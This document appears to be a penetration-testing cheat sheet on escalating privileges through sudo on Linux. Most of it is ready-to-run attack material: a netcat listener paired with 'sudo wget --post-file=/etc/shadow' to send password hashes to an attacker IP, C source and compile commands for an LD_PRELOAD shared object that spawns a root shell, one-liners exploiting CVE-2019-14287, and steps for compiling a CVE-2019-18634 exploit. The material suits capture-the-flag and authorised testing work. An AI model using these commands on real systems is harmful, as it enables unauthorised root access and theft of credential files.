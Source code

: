 Abusing Sudo

Sudo Shell Escaping

Checking Sudo Rights for Current User

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sudo -l
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Lists all applications that can be run as root or another user that potentially has higher privileges (with or without a password).

GTFOBins

GTFOBins Github.io

Escaping underprivileged shell cheatsheet

Intended Functionality

Using a binary that does not have the ability to gain a privileged shell, but does have sudo capability when viewing in “sudo -l”.

ex. You have sudo capability for wget in the "sudo -l" output:

Attacker Machine:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nc -vnlp 4444
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Victim Machine:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sudo wget --post-file=/etc/shadow <ATTACKER-IP> 4444
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

This example will dump the shadow file on to the attacker's netcat session and will be readable by the attacker machine and can then be used to decrypt the shadow file. Please note that this can be used to read other files that are not readily accessible by the underprivileged user.

ex. You know that there is a file named flag.txt located in /root. You can --post-file=/root/flag.txt instead of shadow to obtain the root flag.
sudo -l

LD_PRELOAD

LD_PRELOAD may show up when performing a “sudo -l” command. This will allow us to create our own custom SO to escape the underprivileged account and run as root.

C Code for the SO (shell.c):

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

After saving this file on the victim machine, compile using GCC:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

After compiling the SO file from the C Code, you will need to execute LD_PRELOAD with the SO file (with full path to SO file) as sudo against a service that you have sudo rights to:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sudo LD_PRELOAD=/home/user/shell.so apache2
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

SUDO EXPLOIT - CVE-2019-14287

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
#Taking over root account
sudo -u#-1 /bin/bash
# OR
sudo -u#4294967295 /bin/bash

#Taking over another user account
sudo -u#+1000 /bin/bash
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

SUDO BUFFER OVERFLOW - CVE-2019-18634

Begin by checking out the sudoers file at "/etc/sudoers" and look for an uncommented section that contains the word “pwfeedback”

THIS IS ONLY VULNERABLE FOR VERSIONS 1.8.26 OR EARLIER WITH "pwfeedback" ENABLED

Determining version of sudo and if pwfeedback is enabled: 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
#Determining the version of sudo
sudo -V
#Checking if we can read the sudoers file for the pwfeedback option
cat /etc/sudoers
#If unable to access the sudoers file, run “sudo su root” and see if you get asterisks when typing in a password
sudo su root
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Exploit Code:

Compile the exploit.c file by performing the following command:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
gcc exploit.c -o exploit
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

https://github.com/saleemrashid/sudo-cve-2019-18634
